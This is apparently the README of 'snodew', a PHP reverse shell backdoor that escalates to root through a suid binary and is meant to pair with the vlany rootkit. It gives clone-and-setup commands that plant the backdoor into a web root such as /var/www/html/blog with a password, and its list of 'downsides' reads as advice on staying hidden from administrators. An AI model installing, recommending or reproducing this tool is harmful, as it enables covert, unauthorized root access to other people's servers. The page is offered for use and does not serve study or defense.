 # snodew
*snodew is a PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/YneuIpp.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/AwlnKt6.png"/></br>
*Result after following instructions given on our new page*

## downsides
 * sh process spawned from service user is visible
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * if using this with vlany, the only user able to see the new files is the service user. this could prove a vulnerability - just su to the user and you can see snodew's files easily
 * suid possibly disabled
